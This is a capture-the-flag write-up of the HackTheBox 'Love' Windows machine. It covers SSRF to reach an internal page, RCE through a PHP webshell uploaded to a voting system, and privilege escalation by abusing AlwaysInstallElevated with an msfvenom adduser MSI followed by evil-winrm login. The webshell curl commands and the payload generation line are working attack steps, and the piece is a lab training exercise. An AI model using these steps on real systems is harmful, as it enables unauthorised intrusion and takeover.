 Title:HTB: Love
Date: 08-09-2021 17:55
category:security
tags:security, boot2root, HTB, windows, php, AlwaysInstallElevated
meta:security, boot2root, HTB, windows, php, AlwaysInstallElevated

<img class="align-left" src="/media/2021.08/love_card.png" alt="Love card" width="262">

This is a writeup about a retired HacktheBox machine:
[Love](https://www.hackthebox.com/home/machines/profile/344) published on
May 1 2021 by
[pwnmeow](https://www.hackthebox.com/home/users/profile/157669)
This box is classified as an easy machine. This box implies a SSRF, some php
file and an AlwaysInstallElevated privilege on a Windows box.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. As always with Windows box a lot of ports are open.
We note the few HTTP services (80, 443, 5000).

    :::text
    # Nmap 7.91 scan initiated Thu May 20 09:46:35 2021 as: nmap -sSV -p- -A -oN notes.md 10.129.143.132
    Nmap scan report for 10.129.143.132
    Host is up (0.012s latency).
    Not shown: 65517 closed ports
    PORT      STATE SERVICE      VERSION
    80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: Voting System using PHP
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    | ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    | Not valid before: 2021-01-18T14:00:16
    |_Not valid after:  2022-01-18T14:00:16
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
    3306/tcp  open  mysql?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, SIPOptions:
    |_    Host '10.10.14.70' is not allowed to connect to this MariaDB server
    5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    5040/tcp  open  unknown
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    | ssl-cert: Subject: commonName=LOVE
    | Subject Alternative Name: DNS:LOVE, DNS:Love
    | Not valid before: 2021-04-11T14:39:19
    |_Not valid after:  2024-04-10T14:39:19
    |_ssl-date: 2021-05-20T14:11:47+00:00; +21m33s from scanner time.
    | tls-alpn:
    |_  http/1.1
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    <SNIP>

## Web

On the port 80 we have a login form for a PHP voting system.

On the port 443 we have a FileScanner with a demo. As pointed out by the `nmap` scan and the SSL
certificate we need to use another domain `staging.love.htb`

![love ssl certificate](/media/2021.08/love_01.png){: .image-process-article-image}

Here we can input an URL to get it "scanned". After a few trial with our files (and a simple python server)
scanned means echoed.

Looking back at our `nmap` scan we can see that we are forbidden to access the webpage on port 5000.
We use the scanner to display it. It contains the password for the voting system `@LoveIsInTheAir!!!!`.

![admin password for the voting system](/media/2021.08/love_02.png){: .image-process-article-image}

We connect to the voting system. There is a few vulnerabilities (one of them even unauthenticated Oo)
Using the [(unauthenticated) RCE exploit](https://www.exploit-db.com/exploits/49445) we can get a
webshell by uploading `/usr/share/webshells/php/simple-backdoor.php` as an image for a candidate (after
adding a position). We can then execute Windows command on the OS.

    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=whoami%20/all'
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>
    USER INFORMATION
    ----------------

    User Name   SID
    =========== =============================================
    love\phoebe S-1-5-21-2955427858-187959437-2037071653-1002


    GROUP INFORMATION
    -----------------

    Group Name                             Type             SID          Attributes
    ====================================== ================ ============ ==================================================
    Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
    CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
    LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                          State
    ============================= ==================================== ========
    SeShutdownPrivilege           Shut down the system                 Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
    SeUndockPrivilege             Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
    SeTimeZonePrivilege           Change the time zone                 Disabled


We can grab the user flag on the way:

    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=type%20..\..\..\..\Users\Phoebe\Desktop\user.txt'
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>eb7553538ae21eec5e4d1d444beaf541
    </pre>


# Root

We use the image upload function to put [WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) on the box
and we run it using our webshell. The output is quit huge (2344 lines).


    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=winPEASx64.exe' >> winpeas_res
    └─$ wc -l winpeas_res
    2344 winpeas_res

We see that the AlwaysInstallElevated registry keys are set to one both in HKLM
and HKCU.

    :::text
    [+] Checking AlwaysInstallElevated
    [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
      AlwaysInstallElevated set to 1 in HKLM!
      AlwaysInstallElevated set to 1 in HKCU!

We use `msfvenom` to generate an msi file that will "install" a new admin user
with a know password.

    :::text
    └─$ #msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi

We then connect to the box using
[evil-winrm](https://github.com/Hackplayers/evil-winrm) and grab the root flag.

    :::text
    └─$ evil-winrm -i love.htb -u rottenadmin -p 'P@ssword123!'

    Evil-WinRM shell v2.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\rottenadmin\Documents> type ..\..\Administrator\Desktop\root.txt
    af2d13b1f523eed72cddf44b166c4601

# Wrapping up

Overall a nice box with a few rabbit hole (very OSCP like). I banged my head a
few time as I did not notice the port 5000 403. Also the CVE used to get the RCE
is completely unauthenticated so a simple Google search "php voting system
exploit" would have return the same exploit. Also the exploit date (May 7) seems to be
posterior to the box publication (May 1) which is odd and maybe not the intended
RCE way.

